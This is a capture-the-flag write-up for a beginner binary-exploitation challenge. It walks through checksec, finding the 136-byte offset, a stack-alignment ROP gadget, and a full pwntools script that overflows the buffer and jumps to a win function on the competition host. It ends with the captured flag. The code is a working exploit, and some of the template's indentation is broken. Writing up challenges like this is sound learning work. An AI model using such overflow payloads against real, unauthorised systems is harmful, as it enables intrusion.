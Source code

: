 ```yaml
---
description: Binary Exploitation
---
```


# 101 - Pwn

**Warning: This writeup was originally in** :flag\_id: **INDONESIAN for the competition's mandatory writeup, so I used ChatGPT to translate to ENGLISH!!!**

> Author: Fedra

Given a binary, I started analyzing its security using `checksec`:

![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXcM2Gdh7lVd5C5p0cVTY2MjbCbjcdpq34agaoTd7ivmejnRa3jesTm4AD4vKokuB51UkP7LDLY5NIYldE45khEOu0J0rZJGucxN6fafzK3sGx59F1G6pU_JGbQiCLcxXb5b99qoOuEvAVmYaaAoO5gmFRY5?key=G5qB5JlF_khYxSh2BJAT50po)

It was determined that the binary lacks security measures against basic buffer overflows because it does not have a Stack Canary. Crafting the payload is also simplified since there is no PIE (Position Independent Executable), meaning the base address remains constant.

When the binary was decompiled (using the online decompiler [Dogbolt](https://dogbolt.org)), I found that it was a simple "return-to-win" challenge designed to execute a secret function.

![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXesMDteU5fYSduZM8vnIY0qvcbwqp_QYEjdBfxDHudid02hD6Uucaoar1ncs12CNhz3ZQ7of4zwR1n4ix4uZDKX_nqkcCNMNRdVXC2XOHIKoHq1ajSNP13SJEKn8F9wosL4LA0bDPMMeAFGJdnLt8hKqGY?key=G5qB5JlF_khYxSh2BJAT50po)

To begin creating a payload to solve this challenge, I used the template feature from pwntools with the following command:

```
pwn template pwn --host 0.cloud.chals.io --port 32229 > solve.py
```

To find the return address of the secret function, I used the `info functions` command in GDB with the `pwndbg` plugin.

![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXciPdj6wAKpsDy6QNArrzKTbgc7fyWNH8Kqk5c7JDVrXBbtQbY-NLIRdKI_EicCWL-Yk-Q7EhrVmaRl08oj6CpTLWDiMWjrmvoO1X4X1PZG5nwXdZrTrzeEufwNMVJvZFoYmBYGvPTU39VlP3-0jU5hO4ih?key=G5qB5JlF_khYxSh2BJAT50po)

Next, I searched for the offset required to overwrite the return pointer by causing a buffer overflow using a cyclic pattern:

![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXcDgKgqdhwTr02qDCHiRbf81tR3R_d67PyePj_doFn1_DLr3j42qg8yq0ZimRuP9uf0wp5tib1Y0OJQQfSyKKGrXlMIdeGDSWI1mOF8ZEhrueAXEGhuhFI8L_WpK7zlF4-9WhNIu8XXoLO_GEsIWiXXBEem?key=G5qB5JlF_khYxSh2BJAT50po)

It was observed that the RBP is located at `0x7fffffffe110`, and the RIP is located 8 bytes after the RBP, which led to the discovery of the offset with the pattern `raaaaaaa`:

![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXcSAtde9HA-U1mW1bwKNgop9jXEsNAz9M3-kx2H7PGWq8r7S4FPZvsbrhYYQT4rqT_VvBQW6VJJ1E7LVrxFPG5lRzWKeTYtDkrEPj5yA2vpYQnRKRvq8oXl9ro2uNr8YFpJf50fRsfuXUvWJEUecXR50A3h?key=G5qB5JlF_khYxSh2BJAT50po)

I then wrote a script to create the payload using the variables I had discovered, but I encountered an EOF error:

```python
io = start()

offset = 136
win = p64(0x401196)
payload = b"A" * offset
payload += win

log.info(io.clean())
log.info(f"Sending payload: {payload}")
io.sendline(payload)
log.info(io.clean())

io.interactive()
```

![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXcYiF2miR6nzUFdZnrsHLUt33GTRLP7yQ5_x4Ttcq_zTBhcH5e_cPRbbwSxGAoK3j-N6WaxkDth4gDdZ0W9JEnFL35txQrS0Sd8Xw2cU0tQ0q5jCR6qfzy2m2aZ9bxwosONP32IINTA476aMGkiaLpNPQ7m?key=G5qB5JlF_khYxSh2BJAT50po)

To address the EOF error, I searched for a ROP (Return Oriented Programming) gadget that could perform stack alignment and prevent the EOF error:

![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXcc9QIdO4lDP22YscRImI4_P4SVhF_QBU_q74LjP8XNOnu550LGNq8AZc8FA3F4DlJwO6FHFE4tL3aRkNeB5nb9wdZU-KtjppF4w_E5sTnIPqmk22DMK_-BU7IItFRDCE9ojDCSS28eRGHlZBvjTmtQvuaH?key=G5qB5JlF_khYxSh2BJAT50po)

The simplest gadget for this task was `nop; ret`, which effectively does nothing and simply returns. I used the address `0x40110f` for this gadget and added it to my payload, aligning the stack before returning to the secret function.

Combining all the information, the final script to solve the challenge is as follows:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template pwn --host 0.cloud.chals.io --port 32229
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'pwn')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141 EXE=/tmp/executable
host = args.HOST or '0.cloud.chals.io'
port = int(args.PORT or 32229)


def start_local(argv=[], *a, **kw):
'''Execute the target binary locally'''
if args.GDB:
    return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
else:
    return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
'''Connect to the process on the remote host'''
io = connect(host, port)
if args.GDB:
    gdb.attach(io, gdbscript=gdbscript)
return io

def start(argv=[], *a, **kw):
'''Start the exploit against the target.'''
if args.LOCAL:
    return start_local(argv, *a, **kw)
else:
    return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                EXPLOIT GOES HERE
#===========================================================
# Arch: amd64-64-little
# RELRO:  Partial RELRO
# Stack:  No canary found
# NX:     NX unknown - GNU_STACK missing
# PIE:    No PIE (0x400000)
# Stack:  Executable
# RWX:    Has RWX segments
# SHSTK:  Enabled
# IBT:    Enabled
# Stripped:   No

io = start()

offset = 136
win = p64(0x401196)
ret = p64(0x40110f)
payload = b"A" * offset
payload += ret
payload += win

log.info(io.clean())
log.info(f"Sending payload: {payload}")
io.sendline(payload)
log.info(io.clean())

io.interactive()
```

Using this script, I successfully executed a shell command on the remote machine via `netcat` to the provided remote server, which allowed me to retrieve the flag:

![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXevysg7tg7tyxH-T2sRUlyyAW9qn--5mqfr2g6OYgO5YLlCxgqPgKxr5BPBU_1KJ-w6WVgNyZ-MwqCbuKKUUkdBJbjYycq2gndW6A71k--wz7aN6Nz46JQtCIem6z-A2JWtuo0Trd_iwZCjE_6ulynTQlzy?key=G5qB5JlF_khYxSh2BJAT50po)

**TSA{PWN\_101\_2d2de462ebe19a876eb74b1c9c053120}**
